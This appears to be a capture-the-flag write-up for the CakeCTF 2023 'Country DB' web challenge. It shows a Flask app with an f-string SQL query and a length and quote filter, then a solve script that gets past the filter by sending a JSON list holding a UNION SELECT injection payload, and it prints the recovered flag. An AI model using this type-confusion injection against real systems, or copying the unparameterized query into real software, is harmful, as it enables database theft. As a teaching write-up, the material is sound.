 ```yaml
---
title: 2023 CakeCTF - Country DB
author: thanguyen165
date: 2023-11-11 00:00:00 +0700
categories: [Write-ups, 2023_CakeCTF]
tags: [Web Exploitation, write-ups]
---
```


* 68 points / 246 solves
* author: ptr-yudai
* tag: warm-up

## Description

> Do you know which country code 'CA' and 'KE' are for?
> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!

### Attached

[country-db.zip](./attached/country_db_fc1912477a433a93f7d75a9b80389582.zip)

```py
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```
{: file="app.py" }

## Analyzation

Check ```init_db.py``` file, it is not hard to find out this is sqli.

The query is so simple

```sql
SELECT name FROM country WHERE code=UPPER('AF') UNION SELECT FLAG FROM FLAG -- trash
```

The main problem of this challenge is to bypass the filters
```py
req = flask.request.get_json()
if 'code' not in req:
    flask.abort(400, "Empty country code")

code = req['code']
if len(code) != 2 or "'" in code:
    flask.abort(400, "Invalid country code")
```

So the string's length must be 2.

Hmmm, does it have to be string??

## Vulnerability

It does not check type of ```code```, so it does not need to be a string. Another data type can be used instead.

After looking around, I find out ```list``` work!

## Solution

```py
import requests

URL = "http://localhost:8020/api/search"
URL = "http://countrydb.2023.cakectf.com:8020/api/search"

data = {"code": ["') UNION SELECT FLAG FROM FLAG --", "# "]}

response = requests.post(URL, json=data)

print(response.text)
```
{: file="solve.py" }

*I use empty string for the first query to prevent the result of that query stay up before flag*

The flag is
```
CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
```

* Similar challenge: "upside-down cake" of TSG CTF (2023)*